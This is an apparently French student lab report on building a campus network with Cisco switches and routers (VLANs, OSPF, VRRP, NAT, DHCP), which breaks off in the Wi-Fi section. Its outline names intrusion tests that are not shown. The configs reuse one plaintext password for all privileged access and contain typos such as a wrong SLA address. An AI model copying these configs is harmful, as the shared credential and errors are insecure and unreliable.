


# SE2A5 | Semestre n°9 - TP systèmes & réseaux

# Auteur

### **Kevin Doolaeghe**

# Sommaire

* [Plan d'adressage](#plan-dadressage)
* [Architecture réseau](#architecture-réseau)
* [Configuration des équipements réseau](#configuration-des-équipements-réseau)
  * [Configuration de base](#configuration-de-base)
  * [Configuration du VLAN 530](#configuration-du-vlan-530)
  * [Configuration du VLAN 110](#configuration-du-vlan-110)
  * [Paramétrage du routage IPv4 OSPF](#paramétrage-du-routage-ipv4-ospf)
  * [Redondance des routeurs via le protocole VRRP](#redondance-des-routeurs-via-le-protocole-vrrp)
  * [Translation NAT statique](#translation-nat-statique)
  * [Configuration de l'accès Internet de secours](#configuration-de-laccès-internet-de-secours)
  * [Configuration des points d'accès Wifi](#configuration-des-points-daccès-wifi)
  * [Paramétrage IPv6](#paramétrage-ipv6)
  * [Configuration du VLAN 164](#configuration-du-vlan-164)
* [Machine virtuelle sur le serveur Capbreton](#machine-virtuelle-sur-le-serveur-capbreton)
  * [Création de la machine virtuelle](#création-de-la-machine-virtuelle)
  * [Serveur SSH](#serveur-ssh)
  * [Configuration IP](#configuration-ip)
  * [Serveur DNS](#serveur-dns)
  * [Serveur Web](#serveur-web)
  * [Configuration DNSSEC](#configuration-dnssec)
  * [Configuration de RADIUS (Points d'accès WPA-EAP)](#configuration-de-radius-points-daccès-wpa-eap)
  * [Sécurisation des données](#sécurisation-des-données)
  * [Chiffrement des données](#chiffrement-des-données)
  * [Ferme de serveurs Web](#ferme-de-serveurs-web)
* [Tests d'intrusion](#tests-dintrusion)
  * [Cassage de clef WEP d'un point d'accès Wifi](#cassage-de-clef-wep-dun-point-daccès-wifi)
  * [Cassage du mot de passe WPA-PSK par force brute](#cassage-du-mot-de-passe-wpa-psk-par-force-brute)
  * [Attaque du type "homme du milieu" par usurpation ARP](#attaque-du-type-homme-du-milieu-par-usurpation-arp)
  * [Intrusion sur un serveur Web](#intrusion-sur-un-serveur-web)
* [Résumé des séances](#résumé-des-séances)

# Plan d'adressage

* Répartition des réseaux :

Groupe | Élève | Domaine | 193.48.57.160/28 | 10.60.0.0/16 | 2001:660:4401:60A0::/60 | 2001:7A8:116E:60A0::/60 | VLAN | N° VRRP | SSID n°1 | SSID n°2
--- | --- | --- | --- | --- | --- | --- | --- | --- | --- | ---
1 | Basile.Cougnacq | barbiegirl.store | 193.48.57.161 | 10.60.161.0/24 | 2001:660:4401:60A1::/64 | 2001:7A8:116E:60A1::/64 | 161 | 61 | BG1 | BG2
2 | Benoit.Bouckaert | zelda-botw.site | 193.48.57.162 | 10.60.162.0/24 | 2001:660:4401:60A2::/64 | 2001:7A8:116E:60A2::/64 | 162 | 62 | ZELDA_BOTW_1 | ZELDA_BOTW_2
3 | God-Belange.Aradukunda | humankind59.site | 193.48.57.163 | 10.60.163.0/2 | 2001:660:4401:60A3::/64 | 2001:7A8:116E:60A3::/64 | 163 | 63 | Humankind1 | Humankind2
4 | Kevin.Doolaeghe | demineur.site | 193.48.57.164 | 10.60.164.0/24 | 2001:660:4401:60A4::/64 | 2001:7A8:116E:60A4::/64 | 164 | 64 | DEMINEUR1 | DEMINEUR2
5 | Lea.Viciot | animal-crossing.site | 193.48.57.165 | 10.60.165.0/24 | 2001:660:4401:60A5::/64 | 2001:7A8:116E:60A5::/64 | 165 | 65 | AnimalCrossing1 | AnimalCrossing2
6 | Nicolas.Erceau | rocketleague.club | 193.48.57.166 | 10.60.166.0/24 | 2001:660:4401:60A6::/64 | 2001:7A8:116E:60A6::/64 | 166 | 66 | Rocket-League-1 | Rocket-League-2
7 | Quentin.Lemaire | gta59.site | 193.48.57.167 | 10.60.167.0/24 | 2001:660:4401:60A7::/64 | 2001:7A8:116E:60A7::/64 | 167 | 67 | GTA1 | GTA2
8 | Quentin.Maesen | fifa59.site | 193.48.57.168 | 10.60.168.0/24 | 2001:660:4401:60A8::/64 | 2001:7A8:116E:60A8::/64 | 168 | 68 | Fifa1 | Fifa2
9 | Romain.Haye | brawl-stars.club | 193.48.57.169 | 10.60.169.0/24 | 2001:660:4401:60A9::/64 | 2001:7A8:116E:60A9::/64 | 169 | 69 | Brawl-Stars-1 | Brawl-Stars-2
10 | Thomas.Obled | warzone59.site | 193.48.57.170 | 10.60.170.0/24 | 2001:660:4401:60AA::/64 | 2001:7A8:116E:60AA::/64 | 170 | 70 | WARZONE1 | WARZONE2
11 | Valentin.Harlet | mario59.site | 193.48.57.171 | 10.60.171.0/24 | 2001:660:4401:60AB::/64 | 2001:7A8:116E:60AB::/64 | 171 | 71 | Mario1 | Mario2
12 | William.Meslard | bffield.store | 193.48.57.172 | 10.60.172.0/24 | 2001:660:4401:60AC::/64 | 2001:7A8:116E:60AC::/64 | 172 | 72 | BATTLEFIELD1 | BATTLEFIELD2
13 | Yasmine.Haloua | toad59.site | 193.48.57.173 | 10.60.173.0/24 | 2001:660:4401:60AD::/64 | 2001:7A8:116E:60AD::/64 | 173 | 73 | Toad1 | Toad2

* Plan d'adressage IPv4 :

VLAN | Nom | Réseau IPv4 | Cisco 6509-E | Cisco 9200 | Cisco ISR 4331 | Routeur plateforme maths/info | PA Wifi n°1 | PA Wifi n°2
--- | --- | --- | --- | --- | --- | --- | --- | ---
110 | TP-NET1 | 193.48.57.160/28 / 10.60.100.0/24 (local) | 10.60.100.1 | 10.60.100.2 | 10.60.100.3 | - | - | -
530 | INTERCO-4A | 192.168.222.64/28 | 192.168.222.66 | 192.168.222.67 | - | 192.168.222.65 | - | -
532 | INTERCO-1B | 192.168.222.80/28 | - | - | 192.168.222.82 | 192.168.222.81 | - | -
161 | BarbieGirl | 10.60.161.0/24| 10.60.161.1 | 10.60.161.2 | - | - | 10.60.161.11 | 10.60.161.12
162 | Zelda-BOTW | 10.60.162.0/24 | 10.60.162.1 | 10.60.162.2 | - | - | 10.60.162.11 | 10.60.162.12
163 | Humankind | 10.60.163.0/24 | 10.60.163.1 | 10.60.163.2 | - | - | 10.60.163.11 | 10.60.163.12
164 | DEMINEUR | 10.60.164.0/24 | 10.60.164.1 | 10.60.164.2 | - | - | 10.60.164.11 | 10.60.164.12
165 | AnimalCrossing | 10.60.165.0/24 | 10.60.165.1 | 10.60.165.2 | - | - | 10.60.165.11 | 10.60.165.12
166 | Rocket-League | 10.60.166.0/24 | 10.60.166.1 | 10.60.166.2 | - | - | 10.60.166.11 | 10.60.166.12
167 | GTA | 10.60.167.0/24 | 10.60.167.1 | 10.60.167.2 | - | - | 10.60.167.11 | 10.60.167.12
168 | Fifa | 10.60.168.0/24 | 10.60.168.1 | 10.60.168.2 | - | - | 10.60.168.11 | 10.60.168.12
169 | Brawl-Stars | 10.60.169.0/24 | 10.60.169.1 | 10.60.169.2 | - | - | 10.60.169.11 | 10.60.169.12
170 | Warzone | 10.60.170.0/24 | 10.60.170.1 | 10.60.170.2 | - | - | 10.60.170.11 | 10.60.170.12
171 | Mario | 10.60.171.0/24 | 10.60.171.1 | 10.60.171.2 | - | - | 10.60.171.11 | 10.60.171.12
172 | Battlefield | 10.60.172.0/24 | 10.60.172.1 | 10.60.172.2 | - | - | 10.60.172.11 | 10.60.172.12
173 | Toad | 10.60.173.0/24 | 10.60.173.1 | 10.60.173.2 | - | - | 10.60.173.11 | 10.60.173.12

* Plan d'adressage IPv6 :

VLAN | Nom | Réseau IPv6 | Cisco 6509-E | Cisco 9200 | Cisco ISR 4331 | Routeur plateforme maths/info | PA Wifi n°1 | PA Wifi n°2
--- | --- | --- | --- | --- | --- | --- | --- | ---
110 | TP-NET1 | 2001:660:4401:60A0::/64 | - | - | - | - | - | -
530 | INTERCO-4A | FE80::/10 | FE80::2 | FE80::3 | - | FE80::1 | - | -
532 | INTERCO-1B | FE80::/10 | - | - | FE80::2 | FE80::1 | - | -
161 | BarbieGirl | 2001:660:4401:60A1::/64 / 2001:7A8:116E:60A1::/64 | - | - | - | - | - | -
162 | Zelda-BOTW | 2001:660:4401:60A2::/64 / 2001:7A8:116E:60A2::/64 | - | - | - | - | - | -
163 | Humankind | 2001:660:4401:60A3::/64 / 2001:7A8:116E:60A3::/64 | - | - | - | - | - | -
164 | DEMINEUR | 2001:660:4401:60A4::/64 / 2001:7A8:116E:60A4::/64 | - | - | - | - | - | -
165 | AnimalCrossing | 2001:660:4401:60A5::/64 / 2001:7A8:116E:60A5::/64 | - | - | - | - | - | -
166 | Rocket-League | 2001:660:4401:60A6::/64 / 2001:7A8:116E:60A6::/64 | - | - | - | - | - | -
167 | GTA | 2001:660:4401:60A7::/64 / 2001:7A8:116E:60A7::/64 | - | - | - | - | - | -
168 | Fifa | 2001:660:4401:60A8::/64 / 2001:7A8:116E:60A8::/64 | - | - | - | - | - | -
169 | Brawl-Stars | 2001:660:4401:60A9::/64 / 2001:7A8:116E:60A9::/64 | - | - | - | - | - | -
170 | Warzone | 2001:660:4401:60AA::/64 / 2001:7A8:116E:60AA::/64 | - | - | - | - | - | -
171 | Mario | 2001:660:4401:60AB::/64 / 2001:7A8:116E:60AB::/64 | - | - | - | - | - | -
172 | Battlefield | 2001:660:4401:60AC::/64 / 2001:7A8:116E:60AC::/64 | - | - | - | - | - | -
173 | Toad | 2001:660:4401:60AD::/64 / 2001:7A8:116E:60AD::/64 | - | - | - | - | - | -

# Architecture réseau

* Architecture logique :



* Architecture physique :



# Configuration des équipements réseau

## Configuration de base

### &ensp; &rarr; **Cisco Catalyst 6509-E**

```
switch>enable
switch#configure terminal
```
* Configuration du nom d’hôte :
```
switch(config)#hostname SE2A5-R1
```
* Accès SSH :
```
SE2A5-R1(config)#aaa new-model
SE2A5-R1(config)#username admin privilege 15 secret glopglop
SE2A5-R1(config)#ip domain-name plil.info
SE2A5-R1(config)#crypto key generate rsa
SE2A5-R1(config)#line vty 0 15
SE2A5-R1(config-line)#transport input ssh
SE2A5-R1(config-line)#exit
```
* Accès console :
```
SE2A5-R1(config)#line console 0
SE2A5-R1(config-line)#password glopglop
SE2A5-R1(config-line)#login authentification default
SE2A5-R1(config-line)#exit
```
* Sécurisation des accès :
```
SE2A5-R1(config)#service password-encryption
SE2A5-R1(config)#enable secret glopglop
SE2A5-R1(config)#banner motd #Restricted Access#
```
* Activer le routage :
```
SE2A5-R1(config)#ip routing
SE2A5-R1(config)#ipv6 unicast-routing
```
* Activer VRRP :
```
SE2A5-R1(config)#license boot level network-advantage
SE2A5-R1(config)#fhrp version vrrp v3
```

### &ensp; &rarr; **Cisco Catalyst 9200**

```
switch>enable
switch#configure terminal
```
* Configuration du nom d’hôte :
```
switch(config)#hostname SE2A5-R2
```
* Accès SSH :
```
SE2A5-R2(config)#aaa new-model
SE2A5-R2(config)#username admin privilege 15 secret glopglop
SE2A5-R2(config)#ip domain-name plil.info
SE2A5-R2(config)#crypto key generate rsa
SE2A5-R2(config)#line vty 0 15
SE2A5-R2(config-line)#transport input ssh
SE2A5-R2(config-line)#exit
```
* Accès console :
```
SE2A5-R2(config)#line console 0
SE2A5-R2(config-line)#password glopglop
SE2A5-R2(config-line)#login authentification default
SE2A5-R2(config-line)#exit
```
* Sécurisation des accès :
```
SE2A5-R2(config)#service password-encryption
SE2A5-R2(config)#enable secret glopglop
SE2A5-R2(config)#banner motd #Restricted Access#
```
* Activer le routage :
```
SE2A5-R2(config)#ip routing
SE2A5-R2(config)#ipv6 unicast-routing
```
* Activer VRRP :
```
SE2A5-R2(config)#license boot level network-advantage
SE2A5-R2(config)#fhrp version vrrp v3
```

## Configuration du VLAN 530

Le VLAN 530 permet l'interconnexion avec les routeurs de la plateforme maths/info.

### &ensp; &rarr; **Cisco Catalyst 6509-E**

* VLAN 530 :
```
SE2A5-R1(config)#vlan 530
SE2A5-R1(config-vlan)#name INTERCO-4A
SE2A5-R1(config-vlan)#exit
SE2A5-R1(config)#interface vlan 530
SE2A5-R1(config-if)#description INTERCO-4A
SE2A5-R1(config-if)#ip address 192.168.222.66 255.255.255.248
SE2A5-R1(config-if)#no shutdown
SE2A5-R1(config-if)#exit
```
* Interface d’interconnexion :
```
SE2A5-R1(config)#interface t6/5
SE2A5-R1(config-if)#switchport
SE2A5-R1(config-if)#switchport mode access
SE2A5-R1(config-if)#switchport access vlan 530
SE2A5-R1(config-if)#no shutdown
SE2A5-R1(config-if)#exit
```

### &ensp; &rarr; **Cisco Catalyst 9200**

* VLAN 530 :
```
SE2A5-R2(config)#vlan 530
SE2A5-R2(config-vlan)#name INTERCO-4A
SE2A5-R2(config-vlan)#exit
SE2A5-R2(config)#interface vlan 530
SE2A5-R2(config-if)#description INTERCO-4A
SE2A5-R2(config-if)#ip address 192.168.222.67 255.255.255.248
SE2A5-R2(config-if)#no shutdown
SE2A5-R2(config-if)#exit
```
* Interface d’interconnexion :
```
SE2A5-R2(config)#interface g1/0/1
SE2A5-R2(config-if)#switchport
SE2A5-R2(config-if)#switchport mode access
SE2A5-R2(config-if)#switchport access vlan 530
SE2A5-R2(config-if)#no shutdown
SE2A5-R2(config-if)#exit
```

## Configuration du VLAN 110

Le VLAN 110 permet un accès à un réseau IPv4 routé.  
Le réseau privé `10.60.0.0/16` est également utilisé sur ce réseau pour les points d'accès Wifi et les configurations IP des routeurs.

### &ensp; &rarr; **Cisco Catalyst 6509-E**

* VLAN 110 :
```
SE2A5-R1(config)#vlan 110
SE2A5-R1(config-vlan)#name TP-NET1
SE2A5-R1(config-vlan)#exit
SE2A5-R1(config)#interface vlan 110
SE2A5-R1(config-if)#description TP-NET1
SE2A5-R1(config-if)#ip address 10.60.100.1 255.255.255.0
SE2A5-R1(config-if)#no shutdown
SE2A5-R1(config-if)#exit
```
* Interface vers serveur Capbreton :
```
SE2A5-R1(config)#interface t6/4
SE2A5-R1(config-if)#switchport
SE2A5-R1(config-if)#switchport mode access
SE2A5-R1(config-if)#switchport access vlan 110
SE2A5-R1(config-if)#no shutdown
SE2A5-R1(config-if)#exit
```

### &ensp; &rarr; **Cisco Catalyst 9200**

* VLAN 110 :
```
SE2A5-R2(config)#vlan 110
SE2A5-R2(config-vlan)#name TP-NET1
SE2A5-R2(config-vlan)#exit
SE2A5-R2(config)#interface vlan 110
SE2A5-R2(config-if)#description TP-NET1
SE2A5-R2(config-if)#ip address 10.60.100.2 255.255.255.0
SE2A5-R2(config-if)#no shutdown
SE2A5-R2(config-if)#exit
```
* Interface vers serveur Capbreton :
```
SE2A5-R2(config)#interface t1/1/1
SE2A5-R2(config-if)#switchport
SE2A5-R2(config-if)#switchport mode access
SE2A5-R2(config-if)#switchport access vlan 110
SE2A5-R2(config-if)#no shutdown
SE2A5-R2(config-if)#exit
```

## Paramétrage du routage IPv4 OSPF

Le protocole de routage OSPF est utilisé sur le VLAN 530 afin de déterminer quel routeur aura le rôle de maître pour le routage des paquets et l'annonce des routes.

### &ensp; &rarr; **Cisco Catalyst 6509-E**

* Routage IPv4 - Protocole OPSF :
```
SE2A5-R1(config)#router ospf 1
SE2A5-R1(config-router)#router-id 192.168.222.66
SE2A5-R1(config-router)#summary-address 193.48.57.160 255.255.255.240
SE2A5-R1(config-router)#summary-address 10.0.0.0 255.0.0.0 not-advertise
SE2A5-R1(config-router)#redistribute connected subnets metric 1
SE2A5-R1(config-router)#redistribute static subnets metric 1
SE2A5-R1(config-router)#network 192.168.222.64 0.0.0.7 area 10
SE2A5-R1(config-router)#default-information originate
SE2A5-R1(config-router)#exit
```

### &ensp; &rarr; **Cisco Catalyst 9200**

* Routage IPv4 - Protocole OPSF :
```
SE2A5-R2(config)#router ospf 1
SE2A5-R2(config-router)#router-id 192.168.222.67
SE2A5-R2(config-router)#summary-address 193.48.57.160 255.255.255.240
SE2A5-R2(config-router)#summary-address 10.0.0.0 255.0.0.0 not-advertise
SE2A5-R2(config-router)#redistribute connected subnets metric 2
SE2A5-R2(config-router)#redistribute static subnets metric 2
SE2A5-R2(config-router)#network 192.168.222.64 0.0.0.7 area 10
SE2A5-R2(config-router)#default-information originate
SE2A5-R2(config-router)#exit
```
Le routeur Cisco Catalyst 9200 a une métrique plus élevée afin d'être le routeur secondaire sur le réseau.

## Redondance des routeurs via le protocole VRRP

Le protocole de redondance VRRP est utilisé pour déterminer quel routeur doit avoir le rôle de maître sur le VLAN 110.  
Le routeur Cisco Catalyst 6509-E a une métrique inférieure à celle du Cisco Catalyst 9200 afin qu'il soit le routeur maître sur le réseau. 

### &ensp; &rarr; **Cisco Catalyst 6509-E**

* VLAN 110 :
```
SE2A5-R1(config)#interface vlan 110
SE2A5-R1(config-if)#vrrp 10 ip 10.60.100.254
SE2A5-R1(config-if)#vrrp 10 preempt
SE2A5-R1(config-if)#vrrp 10 priority 110
SE2A5-R1(config-if)#exit
```

### &ensp; &rarr; **Cisco Catalyst 9200**

* VLAN 110 :
```
SE2A5-R2(config)#interface vlan 110
SE2A5-R2(config-if)#vrrp 10 address-family ipv4
SE2A5-R2(config-if-vrrp)#address 10.60.100.254
SE2A5-R2(config-if-vrrp)#vrrpv2
SE2A5-R2(config-if-vrrp)#priority 100
SE2A5-R2(config-if-vrrp)#preempt
SE2A5-R2(config-if-vrrp)#exit
SE2A5-R2(config-if)#exit
```
La version 3 du protocole VRRP n'est pas disponible sur le routeur Cisco Catalyst 6509-E.  
Cependant, le routeur Cisco Catalyst 9200 utilise cette version par défaut.  
La commande `vrrpv2` est donc nécessaire afin d'utiliser la version 2 du protocole VRRP.

## Translation NAT statique

### &ensp; &rarr; **Cisco Catalyst 6509-E**

* Configuration NAT :
```
SE2A5-R1(config)#interface vlan 530
SE2A5-R1(config-if)#ip nat outside
SE2A5-R1(config-if)#exit
SE2A5-R1(config)#interface vlan 110
SE2A5-R1(config-if)#ip nat inside
SE2A5-R1(config-if)#exit
SE2A5-R1(config)#ip nat inside source static network 10.60.100.160 193.48.57.160 /28
```
* Redistribution via OSPF à partir de l'interface Loopback 0 :
```
SE2A5-R1(config)#interface loopback 0
SE2A5-R1(config-if)#ip address 193.48.57.174 255.255.255.240
SE2A5-R1(config-if)#no shutdown
SE2A5-R1(config-if)#exit
```
Les VM doivent avoir une configuration IP sur le réseau `193.48.57.160/28`.  
La communication fonctionne désormais sauf pour les paquets UDP qui sont filtrés.

On choisit de désactiver l'interface `l0` pour économiser une adresse routée.  
A la place, on passe par l'interface `null0` :

```
SE2A5-R1(config)#interface loopback 0
SE2A5-R1(config-if)#shutdown
SE2A5-R1(config-if)#exit
SE2A5-R1(config)#ip route 193.48.57.160 255.255.255.240 null0
```
Une solution de contournement serait d'utiliser des routes statiques comme pour le routeur Cisco Catalyst 9200.

### &ensp; &rarr; **Cisco Catalyst 9200**

* Configuration NAT :
```
SE2A5-R2(config)#interface vlan 530
SE2A5-R2(config-if)#ip nat outside
SE2A5-R2(config-if)#exit
SE2A5-R2(config)#interface vlan 110
SE2A5-R2(config-if)#ip nat inside
SE2A5-R2(config-if)#exit
SE2A5-R2(config)#ip nat inside source static network 10.60.100.160 193.48.57.160 /28
```
Comme le Cisco Catalyst 9200 ne prend pas en charge le protocole NAT, nous passons par des routes statiques.

```
SE2A5-R2(config)#ip route 193.48.57.161 255.255.255.255 10.60.100.161
SE2A5-R2(config)#ip route 193.48.57.162 255.255.255.255 10.60.100.162
SE2A5-R2(config)#ip route 193.48.57.163 255.255.255.255 10.60.100.163
SE2A5-R2(config)#ip route 193.48.57.164 255.255.255.255 10.60.100.164
SE2A5-R2(config)#ip route 193.48.57.165 255.255.255.255 10.60.100.165
SE2A5-R2(config)#ip route 193.48.57.166 255.255.255.255 10.60.100.166
SE2A5-R2(config)#ip route 193.48.57.167 255.255.255.255 10.60.100.167
SE2A5-R2(config)#ip route 193.48.57.168 255.255.255.255 10.60.100.168
SE2A5-R2(config)#ip route 193.48.57.169 255.255.255.255 10.60.100.169
SE2A5-R2(config)#ip route 193.48.57.170 255.255.255.255 10.60.100.170
SE2A5-R2(config)#ip route 193.48.57.171 255.255.255.255 10.60.100.171
SE2A5-R2(config)#ip route 193.48.57.172 255.255.255.255 10.60.100.172
SE2A5-R2(config)#ip route 193.48.57.173 255.255.255.255 10.60.100.173
```
Cette solution est fonctionnelle mais impose que les VM aient une configuration IP sur le réseau `10.60.100.160/28`.  
Les VM devront donc avoir une configuration IP avec l'adresse locale et celle routée.

## Configuration de l'accès Internet de secours

La liaison entre les routeurs déjà présents et le routeur Cisco ISR 4331 est configurée en mode trunk (802.1q).  
On ajoute une règle SLA afin de tester la réponse d'un routeur de l'université. Si le routeur ne répond pas, on décrémente la métrique des routeurs sur le VLAN 110 afin que le routeur ISR 4331 devienne prioritaire.

### &ensp; &rarr; **Cisco Catalyst 6509-E**

* Interface vers Cisco ISR 4331 :
```
SE2A5-R1(config)#interface t5/5
SE2A5-R1(config-if)#switchport
SE2A5-R1(config-if)#switchport mode trunk
SE2A5-R1(config-if)#switchport trunk allowed vlan 110
SE2A5-R1(config-if)#no shutdown
SE2A5-R1(config-if)#exit
```
* SLA :
```
SE2A5-R1(config)#ip sla 1
SE2A5-R1(config-ip-sla)#icmp-echo 192.168.222.65
SE2A5-R1(config-ip-sla-echo)#frequency 300
SE2A5-R1(config-ip-sla-echo)#exit
SE2A5-R1(config)#ip sla schedule 1 life forever start-time now
SE2A5-R1(config)#track 1 ip sla 1
SE2A5-R1(config-track)#exit
SE2A5-R1(config)#interface vlan 110
SE2A5-R1(config-if)#vrrp 10 track 1 decrement 50
SE2A5-R1(config-if)#exit
```

### &ensp; &rarr; **Cisco Catalyst 9200**

* Interface vers Cisco ISR 4331 :
```
SE2A5-R2(config)#interface g1/0/2
SE2A5-R2(config-if)#switchport
SE2A5-R2(config-if)#switchport mode trunk
SE2A5-R2(config-if)#switchport trunk allowed vlan 110
SE2A5-R2(config-if)#no shutdown
SE2A5-R2(config-if)#exit
```
* SLA :
```
SE2A5-R2(config)#ip sla 1
SE2A5-R2(config-ip-sla)#icmp-echo 192.166.222.65
SE2A5-R2(config-ip-sla-echo)#frequency 300
SE2A5-R2(config-ip-sla-echo)#exit
SE2A5-R2(config)#ip sla schedule 1 life forever start-time now
SE2A5-R2(config)#track 1 ip sla 1
SE2A5-R2(config-track)#exit
SE2A5-R2(config)#interface vlan 110
SE2A5-R2(config-if)#vrrp 10 address-family ipv4
SE2A5-R2(config-if-vrrp)#track 1 decrement 50
SE2A5-R2(config-if-vrrp)#exit
SE2A5-R2(config-if)#exit
```

### &ensp; &rarr; **Cisco ISR 4331**

#### &ensp; &ensp; **Configuration de base :**

```
switch>enable
switch#configure terminal
```
* Configuration du nom d’hôte :
```
switch(config)#hostname SE2A5-R3
```
* Accès SSH :
```
SE2A5-R3(config)#aaa new-model
SE2A5-R3(config)#username admin privilege 15 secret glopglop
SE2A5-R3(config)#ip domain-name plil.info
SE2A5-R3(config)#crypto key generate rsa
SE2A5-R3(config)#line vty 0 15
SE2A5-R3(config-line)#transport input ssh
SE2A5-R3(config-line)#exit
```
* Accès console :
```
SE2A5-R3(config)#line console 0
SE2A5-R3(config-line)#password glopglop
SE2A5-R3(config-line)#login authentification default
SE2A5-R3(config-line)#exit
```
* Sécurisation des accès :
```
SE2A5-R3(config)#service password-encryption
SE2A5-R3(config)#enable secret glopglop
SE2A5-R3(config)#banner motd #Restricted Access#
```
* Activer le routage :
```
SE2A5-R3(config)#ip routing
SE2A5-R3(config)#ipv6 unicast-routing
```
* Activer VRRP :
```
SE2A5-R3(config)#license boot level network-advantage
SE2A5-R3(config)#fhrp version vrrp v3
```

#### &ensp; &ensp; **Pont vers le VLAN 532 :**

Le routeur Cisco ISR 532 ne permet pas la configuration des VLAN. Une alternative à ce problème est de passer par des ponts (BDI) pour remplacer les VLAN 532 et 110.  
Le VLAN 532 permet l'interconnexion avec l'accès Internet de secours.

* Bridge VLAN 532 :
```
SE2A5-R3(config)#interface bdi 532
SE2A5-R3(config-if)#ip address 192.168.222.82 255.255.255.248
SE2A5-R3(config-if)#no shutdown
SE2A5-R3(config-if)#exit
```
* Interface d’interconnexion :
```
SE2A5-R3(config)#interface g0/0/0
SE2A5-R3(config-if)#description INTERCO-1B
SE2A5-R3(config-if)#no shutdown
SE2A5-R3(config-if)#service instance 532 ethernet
SE2A5-R3(config-if-srv)#encapsulation untagged
SE2A5-R3(config-if-srv)#bridge-domain 532
SE2A5-R3(config-if-srv)#exit
SE2A5-R3(config-if)#exit
```

#### &ensp; &ensp; **Pont vers le VLAN 110 :**

*  Bridge VLAN 110 :
```
SE2A5-R3(config)#interface bdi 110
SE2A5-R3(config-if)#ip address 10.60.100.3 255.255.255.0
SE2A5-R3(config-if)#vrrp 10 ip 10.60.100.254
SE2A5-R3(config-if)#vrrp 10 preempt
SE2A5-R3(config-if)#vrrp 10 priority 90
SE2A5-R3(config-if)#no shutdown
SE2A5-R3(config-if)#exit
```
* Interface vers Cisco Catalyst 6509-E :
```
SE2A5-R3(config)#interface g0/0/2
SE2A5-R3(config-if)#description TP-NET1
SE2A5-R3(config-if)#no shutdown
SE2A5-R3(config-if)#service instance 110 ethernet
SE2A5-R3(config-if-srv)#encapsulation dot1q 110
SE2A5-R3(config-if-srv)#rewrite ingress tag pop 1 symmetric
SE2A5-R3(config-if-srv)#bridge-domain 110
SE2A5-R3(config-if-srv)#exit
SE2A5-R3(config-if)#exit
```
* Interface vers Cisco Catalyst 9200 :
```
SE2A5-R3(config)#interface g0/0/1
SE2A5-R3(config-if)#description TP-NET1
SE2A5-R3(config-if)#no shutdown
SE2A5-R3(config-if)#service instance 110 ethernet
SE2A5-R3(config-if-srv)#encapsulation dot1q 110
SE2A5-R3(config-if-srv)#rewrite ingress tag pop 1 symmetric
SE2A5-R3(config-if-srv)#bridge-domain 110
SE2A5-R3(config-if-srv)#exit
SE2A5-R3(config-if)#exit
```

#### &ensp; &ensp; **Translation NAT dynamique**

On configure une mascarade sur l'accès Internet de secours.

* Configuration NAT :
```
SE2A5-R3(config)#interface bdi 532
SE2A5-R3(config-if)#ip nat outside
SE2A5-R3(config-if)#exit
SE2A5-R3(config)#interface bdi 110
SE2A5-R3(config-if)#ip nat inside
SE2A5-R3(config-if)#exit
SE2A5-R3(config)#access-list 10 permit 193.48.57.160 0.0.0.15
SE2A5-R3(config)#ip nat inside source list 10 interface loopback 0 overload
SE2A5-R3(config)#ip nat inside source static network 10.60.100.160 193.48.57.160 255.255.255.240
```

## Configuration des points d'accès Wifi

### Cisco Catalyst 6509-E

* DHCP :
```
SE2A5-R1(config)#ip dhcp pool DEMINEUR
SE2A5-R1(dhcp-config)#dns 193.48.57.164
SE2A5-R1(dhcp-config)#network 10.60.164.0 255.255.255.0
SE2A5-R1(dhcp-config)#default-router 10.60.164.254
SE2A5-R1(dhcp-config)#exit
SE2A5-R1(config)#ip dhcp excluded-address 10.60.164.0 10.60.164.99
SE2A5-R1(config)#ip dhcp excluded-address 10.60.164.150 10.60.164.255
```
* VLAN n°1 :
```
SE2A5-R1(config)#interface vlan 1
SE2A5-R1(config-if)#ip address 10.60.101.252 255.255.255.0
SE2A5-R1(config-if)#no shutdown
SE2A5-R1(config-if)#vrrp 1 ip 10.60.101.254
